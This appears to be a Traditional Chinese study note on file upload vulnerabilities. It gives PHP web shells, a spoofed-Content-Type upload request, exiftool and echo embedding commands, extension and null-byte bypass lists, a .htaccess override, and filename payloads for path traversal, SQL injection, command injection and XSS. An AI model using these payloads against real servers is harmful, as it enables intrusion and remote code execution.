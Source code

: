 ```yaml
---
title:File Upload Vulnerability

---
```


文件上傳漏洞是指用戶上傳可能會造成危害的檔案(~~廢話~~  

## 伺服器如何處理靜態檔案的Request

### 檔案路徑

傳統的網站會把檔案的request，1:1的映射到自己的檔案路徑，如：  
```
GET /files/avatars/profile.png HTTP/1.1
```  
`profile.png` 的絕對位置可能為`/var/www/html/files/avatars/profile.png`  

### 回傳的檔案內容

- 如果檔案類型為`non-executable`：伺服器會回傳檔案的內容  
- 如果檔案類型為`excutable`：伺服器會把request的header和parameter指派給對應的變數，並回傳執行的結果輸出  
- 如果檔案類型為`excutable`，但伺服器沒有設定要執行：大部分情況下會回傳error，但少部分情況會回傳檔案內容回來  

## Web Shell

如果使用者可以執行上傳的檔案，那麼這些檔案內容會造成危害  

### 任意讀取檔案

```php 
<?php echo file_get_contents('/path/to/target/file'); ?>
```

### 執行指令

```php 
<?php system($_GET['cmd']); ?>
```

用這樣的方式可以傳遞parameter給web shell：  
```
GET /example.com/exploit.php?command=id HTTP/1.1
```


## Bypassing

### Content-Type
若是伺服器使用Content-Type驗證檔案
```
POST /images HTTP/1.1
Host: example.com
Content-Length: 12345
Content-Type: multipart/form-data; boundary=---------------------------012345678901234567890123456

---------------------------012345678901234567890123456

Content-Disposition: form-data; name="image"; filename="exploit.php"
Content-Type: image/png
<?php system($_GET['cmd']); ?>

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="username"
user

---------------------------012345678901234567890123456-- 
```

將`Content-Type`改成`image/png`或[其他](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/Web/content-type.txt)

### magic number

伺服器驗證檔案的header  
利用exiftool:  
```
exiftool -Comment="<?php system($_GET['cmd']); ?>" img.jpg
```  

利用linux:  
```
echo '<?php system($_REQUEST['cmd']); ?>' >> img.png
```

### 副檔名驗證
如果遇到副檔名被擋的情況

#### 使用其他副檔名  

以下副檔名之檔案為`executable`
- PHP: `.php`, `.php2`, `.php3`, `.php4`, `.php5`, `.php6`, `.php7`, `.phps`, `.phps`, `.pht`, `.phtm`, `.phtml`, `.pgif`, `.shtml`, `.htaccess`, `.phar`, `.inc`, `.hphp`, `.ctp`, `.module`
- Working in PHPv8: `.php`, `.php4`, `.php5`, `.phtml`, `.module`, `.inc`, `.hphp`, `.ctp`
- ASP: `.asp`, `.aspx`, `.config`, `.ashx`, `.asmx`, `.aspq`, `.axd`, `.cshtm`, `.cshtml`, `.rem`, `.soap`, `.vbhtm`, `.vbhtml`, `.asa`, `.cer`, `.shtml`
- Jsp: `.jsp`, `.jspx`, `.jsw`, `.jsv`, `.jspf`, `.wss`, `.do`, `.action`
- Coldfusion: `.cfm`, `.cfml`, `.cfc`, `.dbm`
- Flash: `.swf`
- Perl: `.pl`, `.cgi`
- Erlang Yaws Web Server: `.yaws`

#### 更改大小寫  

`exploit.pHP`

#### 在增加更多副檔名層級

`exploit.png.php`
`exploit.php.png`
`exploit.php%00.png%00.jpg`

#### 副檔名尾端加入特殊字元

- `exploit.php%20`
- `exploit.php%0a`
- `exploit.php%00`
- `exploit.php%0d%0a`
- `exploit.php/`
- `exploit.php.\`
- `exploit.`
- `exploit.php....`
- `exploit.pHp5....`

#### 混淆副檔名parser

使用多個副檔名、特殊字元和填充多個null byte混淆副檔名parser
- `exploit.png.php`
- `exploit.png.pHp5`
- `exploit.php#.png`
- `exploit.php%00.png`
- `exploit.php\x00.png`
- `exploit.php%0a.png`
- `exploit.php%0d%0a.png`
- `exploit.phpJunk123png`

#### 突破檔案名稱長度上限

`python -c 'print "A" * 232'` + `.php.jpg`

#### 繞過反繞過

`exploit.p.phphp`


## Overriding The Server Configuration

### Apache

1. 檢查`/etc/apache2/apache2.conf(或httpd.conf)`，確保server有允許使用.htaccess:
```
<Directory /path/to/your/directory>
    AllowOverride All
</Directory>
```

2. 上傳`.htaccess`於目前資料夾:  
```AddType application/x-httpd-php evil```

3. 上傳`expoilt.evil`，理論上會被當作php執行


## Filename Tricks

### path travelsal

伺服器解析後檔案可能上傳於上層目錄  
`..%2Fexploit.php`

### SQL injection

此payload可以暫停延遲10秒的sql  
`sleep(10)-- -.jpg`

### command injection

`; sleep 10;`

### XSS

`<svg onload=alert(1)>`


## Reference

- [HackTricks](https://book.hacktricks.xyz/pentesting-web/file-upload)
- [Port Swigger](https://portswigger.net/web-security/learning-paths/file-upload-vulnerabilities/i)